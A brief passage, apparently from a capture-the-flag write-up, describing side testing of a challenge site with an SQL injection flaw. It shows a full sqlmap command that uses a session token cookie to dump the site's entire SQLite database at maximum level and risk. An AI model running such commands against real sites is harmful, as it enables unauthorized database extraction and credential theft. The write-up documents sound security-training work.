 ![](/T7/Files/badge7.png)


#### *Fun Side Testing...*

Since the site was vulnerable to SQL Injection Attacks, I used sqlmap to try and glean as much additional information as possible from the database...

```sh
┌──(kali㉿kali)-[~]
└─$ sqlmap -u https://ukzcouspczgmbzmx.ransommethis.net/etvdmxhpgpvdweyg/userinfo?user=ProfuseHunter 
--cookie="tok=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjcyNjA4MDAsImV4cCI6MTY2OTg1MjgwMCwic2VjIjoiYWxqMURCWEFlSU1qaXVockt0Ylg4UUFvUU9HTHk2dnkiLCJ1aWQiOjM3MDM3fQ.451NeZuWAH_AjcBMCms0kKJXBBR_NMH-KUXBkyUMAok"
-a --dbms=sqlite --level=5 --risk=3
```
